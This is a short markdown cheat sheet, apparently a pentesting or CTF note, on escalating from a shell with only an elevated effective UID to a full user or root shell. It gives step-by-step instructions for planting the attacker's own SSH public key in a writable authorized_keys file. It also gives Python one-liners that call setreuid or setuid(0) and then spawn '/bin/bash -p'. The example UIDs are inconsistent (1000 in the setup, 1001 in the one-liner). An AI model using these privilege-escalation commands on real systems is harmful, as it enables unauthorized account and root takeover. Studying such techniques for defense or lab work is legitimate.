# Techniques to Escape EUID Limited Shell to UID Shell

## For normal euid

1) using public key authentication technique to escape

\t-check the .ssh if we have write permission on authorized_keys

\t-write our own public key into the authorized_keys file

\t-ssh into the user with our own private key

\t//notes: the public/private key can be generated using ssh-keygen

2) using python to setreuid to escape

\tcurrent setup:

\t\teuid user: 1000(Eve)

\t\tuid user: 33 (www-data)

\trough idea how it works executing step by step:
```
$python
>>import os
>>os.setreuid(1000,1000)	#setreuid(ruid,euid)
>>os.system("/bin/bash -p")
```
one line command:
```
$python -c 'import os;os.setreuid(1001,1001);os.system("/bin/bash -p")'
```
## For root euid

1) can use the normal euid user technique
2) use python to setuid & escape EUID limited shell

rough idea how it works executing step by step:


```
#python
>>import os
>>os.setuid(0)
>>os.system("/bin/bash -p")
```
one line command:
```
#python -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
```
